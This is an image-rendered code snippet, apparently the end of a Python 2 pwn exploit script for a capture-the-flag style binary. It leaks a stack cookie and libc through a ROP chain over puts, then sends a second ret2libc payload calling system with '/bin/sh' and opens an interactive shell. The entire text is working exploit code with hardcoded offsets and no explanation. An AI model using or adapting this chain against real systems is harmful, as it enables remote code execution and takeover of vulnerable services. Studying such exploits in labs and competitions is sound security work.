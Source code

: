 ```
 
      add1(io, 0, 'cccc',100, '0517')
      io.gdb_hint()
 
      show(io, 2)
      io.read_until('againn')
 
      puts_plt = code_base + 0x0000000000000BC0
      puts_got = code_base + 0x0000000000202F20
      pop_rdi_ret = code_base + 0x0000000000001653
      read_int = code_base + 0x0000000000000F80
      payload = 'a'*0x18 + l64(cookies) + 'aaaaaaaa'*5 + l64(pop_rdi_ret) +   l64(puts_got) + l64(puts_plt) + l64(pop_rdi_ret)+l64(0) + l64(read_int)
 
      io.writeline(payload)
 
      puts = l64(io.readline()[:-1].ljust(8, 'x00'))
      libc_base = puts - 0x000000000006F5D0
 
      print hex(libc_base)
      system = libc_base + 0x0000000000045380
      binsh = libc_base + 0x000000000018C58B
      payload = 'a'*0x18 + l64(cookies) + 'aaaaaaaa'*5 + l64(pop_rdi_ret) +   l64(binsh) + l64(system)
 
      io.writeline(payload)
 
      io.gdb_hint()
      interact(io)
 
 
exp(target)
```
